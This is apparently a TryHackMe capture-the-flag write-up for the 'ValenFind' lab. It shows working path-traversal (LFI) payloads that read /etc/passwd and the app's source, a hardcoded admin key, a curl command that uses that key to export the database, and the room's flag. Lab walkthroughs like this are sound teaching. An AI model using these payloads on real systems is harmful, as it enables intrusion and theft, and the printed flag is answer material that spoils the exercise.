


# 💘 ValenFind – TryHackMe Write-Up

**Category:** Web Exploitation  
**Target:** 10.48.188.72:5000  
**Difficulty:** Medium  
**Flag:** `THM{v1be_c0ding_1s_n0t_my_cup_0f_t3a}`  

---

## 🧭 1️⃣ Initial Enumeration

After running an Nmap scan, we discovered:

- **22/tcp** → SSH  
- **5000/tcp** → Werkzeug (Flask / Python)

The presence of **Werkzeug** strongly suggests a Flask development server.

---

## 🌐 2️⃣ Exploring the Web Application

Visiting:

```

[http://10.48.188.72:5000](http://10.48.188.72:5000)

```

We find a dating application called **ValenFind**.

After creating an account and logging in, we land on:

```

/dashboard

```

---

### 📸 Dashboard Overview



We observe:

- Multiple user cards  
- Like buttons  
- Profile buttons  
- Cupid has **999 Likes** (interesting detail)

Initial testing included:

- IDOR attempts on `/profile/<username>`
- Manipulating `/like/<id>`
- Brute-forcing hidden users

None yielded the flag.

So we pivoted to deeper inspection.

---

## 🔍 3️⃣ Inspecting Profile Source Code

Navigating to:

```

/profile/cupid

````

Inspecting the page source revealed:

```javascript
// Vulnerability: 'layout' parameter allows LFI
fetch(`/api/fetch_layout?layout=${layoutName}`)
````

The application dynamically fetches templates using a user-controlled parameter:

```
/api/fetch_layout?layout=<input>
```

This strongly suggests **Local File Inclusion (LFI)**.

---

## 🚨 4️⃣ Exploiting Local File Inclusion

We attempted path traversal:

```
/api/fetch_layout?layout=../../../../etc/passwd
```

The error message revealed the backend path:

```
/opt/Valenfind/templates/components/
```

After calculating traversal depth, the working payload was:

```
/api/fetch_layout?layout=../../../../../../etc/passwd
```

---

### 📸 Proof of LFI – /etc/passwd


We successfully retrieved `/etc/passwd`.

LFI confirmed.

---

## 📂 5️⃣ Retrieving Application Source Code

Next, we targeted the backend source:

```
/api/fetch_layout?layout=../../../../../../opt/Valenfind/app.py
```

---

### 📸 app.py Disclosure


Inside the source code:

```python
ADMIN_API_KEY = "CUPID_MASTER_KEY_2024_XOXO"
```

And:

```python
@app.route('/api/admin/export_db')
```

The admin endpoint checks:

```python
request.headers.get('X-Valentine-Token')
```

Authorization depends solely on a static header value.

---

## 🔐 6️⃣ Attempting Admin Endpoint (Without Token)

Accessing:

```
/api/admin/export_db
```

Without the required header results in:

---

### 📸 Admin API Forbidden Response



```json
{
  "error": "Forbidden",
  "message": "Missing or Invalid Admin Token"
}
```

We now know:

* The endpoint exists
* It requires a specific header
* We already have the key from source code

---

## 🧨 7️⃣ Exploiting the Admin Export Endpoint

Using curl:

```bash
curl -H "X-Valentine-Token: CUPID_MASTER_KEY_2024_XOXO" \
http://10.48.188.72:5000/api/admin/export_db \
-o valenfind.db
```

The database was successfully downloaded.

---

## 🗃️ 8️⃣ Extracting the Flag

Open the database:

```bash
sqlite3 valenfind.db
.tables
SELECT * FROM users;
```

Flag discovered:

```
THM{v1be_c0ding_1s_n0t_my_cup_0f_t3a}
```

